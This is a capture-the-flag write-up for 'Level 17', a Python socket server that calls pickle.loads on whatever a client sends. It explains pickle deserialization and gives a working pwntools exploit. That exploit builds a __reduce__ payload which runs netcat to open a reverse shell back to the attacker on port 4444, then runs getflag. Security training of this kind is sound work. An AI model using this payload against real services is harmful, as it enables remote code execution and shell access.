

# Level 17

## Discription

> There is a python script listening on port 10007 that contains a vulnerability. \
\
> To do this level, log in as the level17 account with the password level17. Files for this level can be found in /home/flag17.

## Source Code

```python
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
      clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
      server(clnt)
      exit(1)
```

## Solution

Program is very simple. It listens on port 10007 and if a client connects it move forward to server function.

```python
skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
      clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
      server(clnt)
      exit(1)
```

Then it waits to receive something from the client and after receiving, it [deserialise](https://www.cisecurity.org/blog/data-deserialization/) or unpickle the received data and prints it.

```python
def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")
```

If you are familiar with [pickle](https://docs.python.org/3/library/pickle.html) then you must be aware of how easily pickle can be exploited.

Pickle documentation states that -

`Warning : The pickle module is not secure. Only unpickle data you trust.`

pickle.loads() used in this program, is used to unpickle data, which is clearly mentioned in above warning is not secure

Below will be a very brief explanation on pickle exploitation. To understand it really good read [this](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) and [this](https://blog.nelhage.com/2011/03/exploiting-pickle/)

To exploit this we have to send our object or payload in serialise or pickle format using pickle.dumps() and when the server will deserialise or pickle.loads(), our code will get executed

We will create a class with \__reduce__ function in it as the reduce function helps to dump objects in a coustom way and return a tuple with a callable and some arguments, So our callable will be os.system and argument will be the command we want to execute.



## Python

```python
#!/usr/bin/python

# This exploit only works with python2, python3 has some issue with encoding.
from pwn import *
from sys import argv,exit
import pickle

if len(argv) < 3:
	exit("{} Target_IP Local_IP".format(argv[0])) 

class Reverse_shell(object):
	def __reduce__(self):
		return (os.system, ("nc.traditional {} 4444 -e /bin/sh".format(argv[2]),))

payload = pickle.dumps(Reverse_shell())

while True:
	# Don't know the exact reason but we are receiving the connection back after every 2-3 tries that why i have used a loop that run until we get a connection on netcat.
	local_pro = process(['nc','-nvlp','4444'])
	local_pro.recvline()
	remote_pro = remote(argv[1],10007)
	remote_pro.sendline(payload)
	connection_check = local_pro.recvline(timeout=1)
	if connection_check == "":
		local_pro.kill()
		remote_pro.close()
		continue
	else:
		local_pro.sendline('getflag')
		local_pro.interactive()
		break
```
